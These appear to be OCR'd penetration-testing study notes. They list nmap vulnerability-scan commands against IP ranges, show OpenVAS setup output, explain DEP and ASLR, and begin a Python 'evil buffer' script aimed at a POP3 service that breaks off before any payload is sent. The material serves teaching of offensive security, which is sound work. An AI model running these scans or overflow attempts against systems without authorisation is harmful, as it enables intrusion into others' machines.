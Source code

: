 nmap -v -p 80 --script=http-vuln-cve2010-2861 ip

nmap -v -p 21 --script=ftp-anon.nse x.x.x.1-254

nmap -v -p 139,445 --script=smb-security-mode ip

nmap -v -p 80 --script=http-vuln-cve2011-3192 x.x.x.205-210

openvas

apt-get update && apt-get install -y openvas

openvas-setup

[\>] Checking for admin user

[\*] Creating admin user

User created with password 'cca3e09f-b64d-44a2-9180-9d4d6f0a6134'.

firefox https://127.0.0.1:9392

缓冲区溢出(buffer overflows)

内存保护机制:

1.DEP 数据执行阻止

DEP is a set of hardware, and software, technologies that perform additional

checks on memory, to help prevent malicious code from running on a system.

The primary benefit of DEP is to help prevent code execution from data pages,

by raising an exception, when execution occurs.

2.ASLR 地址空间随机化

ASLR randomizes the base addresses of loaded applications, and DLLs, every

time the Operating System is booted.

import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:

>   print "\\nSending evil buffer..."

>   s.connect(('10.0.0.22',110)) \# connect to IP, POP3 port

>   data = s.recv(1024) \# receive banner

>   print data \# print banner

>   s.send('USER test' +'\\r\\n') \# send username "test"

>   data = s.recv(1024) \# receive reply

>   print data \# print reply

>   s.send('PASS test\\r\\n') \# send password "test"

>   data = s.recv(1024) \# receive reply
